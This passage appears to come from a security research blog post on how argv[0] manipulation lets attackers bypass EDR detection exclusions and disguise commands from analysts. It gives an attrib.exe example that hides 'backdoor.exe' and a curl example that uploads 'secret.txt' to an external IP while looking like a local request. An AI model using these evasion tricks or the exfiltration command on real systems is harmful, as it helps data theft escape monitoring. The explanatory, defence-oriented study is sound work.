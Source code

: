 Another way in which detections may be bypassed is by adding tuning keywords to `argv[0]`. It is common for detections to have a base condition that is complemented by additional conditions that filter out false positive alerts. For example, you may have a detection rule that triggers when `attrib.exe` is used to hide a file [[14]]. In practice, this happens often legitimately for file `desktop.ini`, so executions targetting this file may be tuned out [[15]]. If this is a known exclusion, an attacker could bypass such a detection by including `desktop.ini` in `argv[0]`, e.g. `argv = ['attrib_\desktop.ini', '+H', 'backdoor.exe']`[^i].

## `argv[0]` can deceive

Another way in which `argv[0]` can be exploited, is by manipulating it in such a way that it fools _humans_. As discussed before, in enterprise settings, security analysts often review alerts generated by security tooling such as EDR software. Most of such alerts will include the process that is responsible for/associated with the activity that was flagged. The process' command line is a key piece of information that analysts use to determine whether an alert should be further investigated, escalated, or ignored.

For example, an alert for possible data exfiltration might be triggered when `curl -T secret.txt 123.45.67.89` is executed [[16]], as it uploads file `secret.txt` to IP address 123.45.67.89 via HTTP [[17]]. A trained security analyst may further investigate this alert if this behaviour is rare in the environment. The fact that a hard-coded, external IP is used here might increase suspicion; especially if it was not seen before. With this in mind, attackers are more likely to be successful if they manage to make their activity "blend in" with normal activity, thus staying under the radar.

Now consider the same scenario, but with `argv[0]` changed from `curl` to `curl localhost | grep`. This may seem weird, but this is valid: as we have seen, in POSIX, process command lines are an array of strings[^ii], and its first element is nearly always ignored, so we can put in it whatever we want. What's more, security software often represents the array as a space-separated string. Thus, in this case, it will most likely be represented as `curl localhost | grep -T secret.txt 123.45.67.89`, despite the arguments that are being passed being `['curl localhost | grep', '-T', 'secret.txt', '123.45.67.89']`.

[![Diagram showing a curl command line broken down by argv, and demonstrating how manipulation can result in an unexpected EDR output.](/assets/2024-09-03-curl-argv0-manipulation.svg)](/assets/2024-09-03-curl-argv0-manipulation.svg)
_Diagram showing how changing `argv[0]` of a `curl` command can optically change what command is being executed._

To the human eye, it may now appear as if `curl localhost` is executed, and its output passed to `grep -T secret.txt 123.45.67.89`. Despite the latter not making much sense as a command, the command now has an entirely different meaning: it gives the impression `curl` is used to _download_ information from a _local_ address, even though in reality it is used to _upload_ information to a _remote_ address.


[1]: {% link _posts/2021-07-23-windows-command-line-obfuscation.md %}
[2]: https://pubs.opengroup.org/onlinepubs/9699919799/functions/execve.html
[3]: https://learn.microsoft.com/en-us/cpp/c-runtime-library/exec-wexec-functions
[4]: https://www.iso-9899.info/wiki/The_Standard
[5]: https://effectivemachines.com/2018/05/03/fixing-apache-hadoop-cve-2016-6811-argv0-vs-security/
[6]: https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
[7]: https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea
[8]: https://github.com/Sysinternals/SysmonForLinux
[9]: https://lolbas-project.github.io
[10]: https://gtfobins.github.io
[11]: https://www.loobins.io/
[12]: https://redcanary.com/threat-detection-report/techniques/ingress-tool-transfer/
[13]: https://learn.microsoft.com/en-us/defender-endpoint/microsoft-defender-antivirus-windows
[14]: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/attrib
[15]: https://github.com/SigmaHQ/sigma/blob/782f0f524e6f797ea114fe0d87b22cb4abaa6b7c/rules/windows/process_creation/proc_creation_win_attrib_hiding_files.yml#L23-L24
[16]: https://github.com/SigmaHQ/sigma/blob/782f0f524e6f797ea114fe0d87b22cb4abaa6b7c/rules/linux/process_creation/proc_creation_lnx_susp_curl_fileupload.yml
[17]: https://explainshell.com/explain?cmd=curl+-T+secret.txt+123.45.67.89
[18]: https://unicode-explorer.com/c/202E
[19]: https://www.mozilla.org/en-US/security/advisories/mfsa2009-62/
[20]: https://devblogs.microsoft.com/oldnewthing/20031210-00/?p=41553
[21]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/binfmts.h#L9-L15
[^i]: Because in Windows command lines are represented as strings instead of arrays, adding spaces to `argv[0]` results in Windows only considering everything up to the first space as `argv[0]`. That is why for this example we use an underscore. We could however also have used the non-breaking space (`\u00A0`) or another Unicode space character to work around this Windows-specific quirk if we wanted to add a space to `argv[0]`.
[^ii]: As discussed in the previous note, Windows command lines are represented as strings; for POSIX-calls, the operating system turns the provided array into a space-separated string. Windows' dominance may explain why EDR software commonly represents command lines as a string instead of an array, regardless of operating system.